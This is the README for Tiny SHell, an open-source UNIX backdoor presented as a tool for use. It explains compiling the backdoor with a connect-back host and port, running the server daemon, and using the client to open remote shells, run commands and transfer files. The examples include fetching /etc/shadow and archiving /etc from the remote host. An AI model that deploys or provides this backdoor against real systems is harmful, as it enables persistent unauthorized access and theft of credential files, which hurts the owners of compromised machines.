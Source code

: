 ## Tiny SHell - An open-source UNIX backdoor

* ~~Before compiling Tiny SHell~~
  (_You can do these at once with `compile.sh`, see below_)

    1. ~~First of all, you should setup your secret key, which
       is located in `tsh.h`; the key can be of any length (use
       at least 12 characters for better security).~~

    2. ~~It is advised to change `SERVER_PORT`, the port on which
       the server will be listening for incoming connections.~~

    3. ~~You may want to start tshd in "connect-back" mode if
       it runs on on a firewalled box; simply uncomment and
       modify `CONNECT_BACK_HOST` in `tsh.h`.~~

* Compiling Tiny SHell

    Run `compile.sh OS BC_HOST BC_PORT [PASSWORD] [BC_DELAY]`, where `OS` can be any one of these:
    `linux`, `freebsd`, `openbsd`, `netbsd`, `cygwin`, `sunos`, `irix`, `hpux`, `osf`

* How to use the server

    It can be useful to set `$HOME` and the file creation mask
    before starting the server:

        % umask 077; HOME=/var/tmp ./tshd

* How to use the client

    Make sure tshd is running on the remote host. You can:

    - start a shell:

        `./tsh <hostname>`

    - execute a command:

        `./tsh <hostname> "uname -a"`

    - transfer files:

        `./tsh <hostname> get /etc/shadow .`
        `./tsh <hostname> put vmlinuz /boot`

    Note: if the server runs in connect-back mode, replace
    the remote machine hostname with "cb".

* About multiple file transfers

    At the moment, Tiny SHell does not support scp-like multiple
    and/or recursive file transfers. You can work around this bug
    by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

* About terminal modes

    On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
    and other control keys do not work correctly. Fix it with:

        % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

* About security

    Please remember that the secret key is stored in clear inside
    both tsh and tshd executables; therefore you should make sure
    that no one except you has read access to these two files.
    However, you may choose not to store the real (valid) key in
    the client, which will then ask for a password when it starts.
